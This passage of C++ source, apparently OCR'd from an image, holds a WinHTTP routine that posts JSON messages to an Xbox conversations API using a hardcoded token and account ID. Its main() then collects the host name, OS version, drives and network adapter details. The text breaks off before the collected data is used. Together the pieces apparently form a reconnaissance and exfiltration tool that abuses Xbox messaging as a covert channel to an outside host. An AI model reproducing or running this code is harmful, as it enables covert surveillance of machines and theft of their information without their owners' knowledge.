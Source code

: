 ```cpp
  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/api/v2/conversations", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (!hRequest) {
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  char authHeader[512];
  snprintf(authHeader, sizeof(authHeader), "X-Authorization: %s", XBOX_TOKEN);

  wchar_t wauthHeader[512];
  wchar_t wctypeHeader[] = L"Content-Type: application/json";
  MultiByteToWideChar(CP_ACP, 0, authHeader, -1, wauthHeader, 512);
 
  WinHttpAddRequestHeaders(hRequest, wauthHeader, -1, WINHTTP_ADDREQ_FLAG_ADD);
  WinHttpAddRequestHeaders(hRequest, wctypeHeader, -1, WINHTTP_ADDREQ_FLAG_ADD);

  char json_body[1024];
  snprintf(json_body, sizeof(json_body), 
    "{\"message\": \"%s\", \"xuid\": \"2535473210914202\"}",
    message);
  
  printf("%s\n", json_body);

  WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, (LPVOID)json_body, strlen(json_body), strlen(json_body), 0);
 
  WinHttpReceiveResponse(hRequest, NULL);

  DWORD bytesRead;
  char buffer[2048];
  while (WinHttpReadData(hRequest, buffer, sizeof(buffer) - 1, &bytesRead) && bytesRead > 0) {
    buffer[bytesRead] = '\0';
    printf("%s", buffer);
  }

  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  return 0;
}
 
int main() {
  char systemInfo[2048] = {0};
 
  CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
  DWORD size = sizeof(hostName);
  GetComputerNameA(hostName, &size);
 
  OSVERSIONINFO osVersion;
  osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
  GetVersionEx(&osVersion);
 
  SYSTEM_INFO sysInfo;
  GetSystemInfo(&sysInfo);
 
  DWORD drives = GetLogicalDrives();
 
  IP_ADAPTER_INFO adapterInfo[16];
  DWORD adapterInfoSize = sizeof(adapterInfo);
  GetAdaptersInfo(adapterInfo, &adapterInfoSize);

```